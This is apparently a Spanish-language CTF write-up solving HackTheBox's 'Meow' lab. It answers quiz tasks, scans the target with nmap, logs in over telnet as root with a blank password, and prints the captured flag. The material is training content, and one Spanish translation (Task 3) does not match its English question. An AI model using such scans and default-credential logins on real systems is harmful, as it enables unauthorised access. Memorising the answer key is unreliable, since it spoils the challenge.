 ```yaml
---
title: HTB - Meow (Starting Point)
published: true
categories: [Linux]
tags: [eJPT, eWPT, eCPPTv2, OSCP, Fácil]
---
```


<img src="/assets/HTB/Meow/meow.png">

¡Hola!
Vamos a resolver de la máquina `Meow` de dificultad "Fácil" de la plataforma [HackTheBox](https://hackthebox.com/).

Técnicas Vistas: 

- **Recopilación de información**
- **Uso de telnet y nmap**

### Task 1

>**What does the acronym VM stand for?** ___(**¿Qué significan las siglas VM?**)___
>
>> ***Virtual Machine***



### Task 2

>**What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.** ___(**¿Qué herramienta utilizamos para interactuar con el sistema operativo con el fin de emitir comandos a través de la línea de comandos, como el de iniciar nuestra conexión VPN? También se conoce como consola o shell**)___
>
>> ***Terminal***


### Task 3

>**What service do we use to form our VPN connection into HTB labs?** ___(**¿Qué quiere decir PII?**)___
>
>> ***openvpn***

### Task 4

>**What is the abbreviated name for a 'tunnel interface' in the output of your VPN boot-up sequence output?**
>
>> ***tun***

### Task 5 

>**What tool do we use to test our connection to the target with an ICMP echo request?**
>
>> ***Ping***

### Task 6 

>**What is the name of the most common tool for finding open ports on a target?**
>
>> ***nmap***


### Task 7 

>**What service do we identify on port 23/tcp during our scans?**
>
>> ***telnet***

### Usando Nmap

> **Usaremos la herramienta ```nmap``` para descubrir el servicio corriendo en el puerto 23**

```bash
nmap -sV -vvv 10.129.41.182

    PORT   STATE SERVICE REASON  VERSION
    23/tcp open  telnet  syn-ack Linux telnetd
    Service Info: OS: Linux; CPE: cpe:o:linux:linux_kernel
  
```
### Task 8

>**What username is able to log into the target over telnet with a blank password?**
>
>> ***root***

### Usando telnet

> **Usamos el comando ```telnet``` para conectarnos mediante tcp hacia el objetivo y usar las creedenciales consiguiendo acceso directo a la máquina.**

```bash
telnet 10.129.41.182   
Trying 10.129.41.182...
Connected to 10.129.41.182.
Escape character is [^].

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login:
```

### Submit Flag

>**Submit root flag**
>
>> ***b40abdfe23665f766f9c61ecba8a4c19***

### Escalada de privilegios

**Una vez usadas las creedenciales ```root``` para entrar en la máquina vía ```telnet``` usaremos la shell para hayar la submit flag.**

```bash
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# 
```

Hemos completado la máquina **Meow** de HackTheBox!! Happy Hacking!!

<img src="/assets/HTB/Meow/pwned.png">
